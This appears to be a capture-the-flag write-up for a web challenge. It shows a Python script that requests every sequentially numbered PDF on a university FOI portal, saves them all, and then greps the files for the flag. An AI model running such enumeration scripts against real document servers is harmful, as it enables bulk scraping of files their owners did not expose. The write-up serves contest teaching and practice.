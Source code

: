#  Canadian FOI
tags: misc | web

## Description

>The university has this Freedom Of Information Portal. <br>
You should check it out.<br>
[To the portal](http://foi.uni.hctf.fun/)

![](portal.png)


## Solution
The website doesn't contain useful informations. In the homepage we can only visit the about page, that contains useless stuff, and download a pdf file.
The latter one contains other craps, but the filename in the link is interesting: `/docs/document_001.pdf`. I tried with different numbers and discovered that every file with a filename like "`/docs/document_` + 3 digit number + `.pdf`" can be downloaded.<br>
So I wrote a simple python script to download them, with a nice fancy progress bar:

```python
import requests
from tqdm import tqdm

baseurl = "http://foi.uni.hctf.fun/docs/document_"

for number in tqdm(range(0, 999)):
    pdf_number = "0"*(3-len(str(number))) + str(number)

    url = baseurl + pdf_number + ".pdf"
    r = requests.get(url, stream=True)

    if r.status_code == 200:
        with open('./files/file_' + pdf_number + '.pdf', 'wb') as fd:
            for chunk in r:
                fd.write(chunk)
```

With all the documents in the *files* folder I could search for the word "*flag*", using the following command:

```bash
find ./files -iname '*.pdf' -exec pdfgrep flag {} +
```

that prints thie following result:

```bash
./files/file_255.pdf:Here it is: flag{F1rst_Gr4d3rs_4r1thm3t1c_1s_d4ng3r0us}
```

Found!
